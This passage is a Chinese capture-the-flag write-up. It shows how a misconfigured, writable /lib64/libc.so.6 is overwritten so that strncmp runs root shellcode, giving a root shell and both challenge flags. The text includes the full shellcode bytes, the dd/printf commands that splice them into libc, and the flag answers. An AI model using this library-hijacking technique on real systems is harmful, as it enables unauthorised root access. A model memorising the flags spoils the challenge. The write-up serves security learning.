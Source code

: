 ## 传达不到的文件

（根据官方题解，`/lib64` 的 owner 不是 root 应当是属于打包错误）

虽然 `chall` 读不了，但 `/lib64/libc.so.6` 居然可以读写。

首先以下测试可以确定 `chall` 确实动态链接了 `libc.so.6`：

```
/ $ mv lib64/libc.so.6 /
/ $ ./chall 
./chall: error while loading shared libraries: libc.so.6: cannot open shared object file: No such file or directory
```

然后找一个常见的函数注入，我选的是 `strncmp`，可以看到 `chall` 确实用到了这个函数：

```
/ $ sed 's/strncmp/strxxxx/g' libc.so.6 > lib64/libc.so.6
/ $ ./chall
./chall: symbol lookup error: ./chall: undefined symbol: strncmp, version GLIBC_2.2.5
```

确定 `strncmp` 的位置：

```
$ readelf -Ws libc.so.6 | grep strncmp
  3000: 00000000000a3120   137 IFUNC   GLOBAL DEFAULT   12 strncmp@@GLIBC_2.2.5
```

网上抄个执行 `setuid(0)` 和 `execve("/bin/sh")` 的 [shellcode](http://shell-storm.org/shellcode/files/shellcode-77.html) 注入一下：

```
/ $ dd if=/lib64/libc.so.6 ibs=16 count=$((0xa3120 / 16)) > libc.so.6
/ $ printf '\x48\x31\xc0\x48\x31\xff\xb0\x69\x0f\x05\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05\x6a\x01\x5f\x6a\x3c' >> libc.so.6
/ $ dd if=/lib64/libc.so.6 ibs=16 skip=$((0xa3150 / 16)) >> libc.so.6
/ $ cat libc.so.6 > /lib64/libc.so.6
```

两个 flag 都一起拿了：

```
/ # /chall
/ # whoami
whoami: unknown uid 0
/ # cat flag2 
flag{D0_n0t_O0o0pen_me__unles5_u_tr4aced_my_p4th_be2a101efd}
/ # strings chall | grep flag
flag{ptr4ce_m3_4nd_1_w1ll_4lways_b3_th3r3_f0r_u}
```


